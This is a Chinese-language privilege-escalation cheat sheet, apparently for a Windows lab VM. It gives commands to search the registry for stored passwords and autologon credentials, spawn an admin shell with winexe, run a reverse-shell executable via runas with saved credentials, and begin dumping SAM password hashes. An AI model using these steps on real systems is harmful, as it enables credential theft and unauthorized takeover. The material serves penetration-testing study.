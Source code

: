 # 提权

> 每个目标都可以被认为是唯一的，但是还是有一些常见的升级方法。为了利用这些资源，我们将搜索配置错误的服务，对二进制文件或服务的文件权限限制不足，直接的内核漏洞，以高特权运行的易受攻击的软件，存储在本地文件上的敏感信息，在执行二进制文件之前始终提升特权的注册表设置，安装可能包含硬编码凭据的脚本以及许多其他脚本。

## 信息搜集

### 手动枚举

#### win

##### 捷径

###### 密码与自动登录凭证

可以在注册表中搜索包含单词“ password”的键和值：

```
reg query HKLM /f password /t REG_SZ /s
```

查询此特定密钥以查找管理员自动登录凭据：

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

在Kali上，使用winexe命令产生一个以admin特权运行的shell（用找到的口令更新密码）：

```
winexe -U 'admin%password' //10.10.236.11 cmd.exe
```

###### 临时保存的凭据

列出所有临时保存的凭据的账户：

```
cmdkey /list
```

在Kali上启动侦听器，并使用runas以及保存的管理员凭据来运行reverse.exe可执行文件：

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

###### SAM文件破解

SAM和SYSTEM文件可用于提取用户密码哈希。该虚拟机已将SAM和SYSTEM文件的备份不安全地存储在 C：\ Windows \ Repair \目录中。

将SAM和SYSTEM文件传输到您的Kali VM：

在Kali上，samdump2只能dump，Windows 2k/NT/XP/Vista

![image-20200712170016992](assets/8.提权.assets/image-20200712170016992.png)
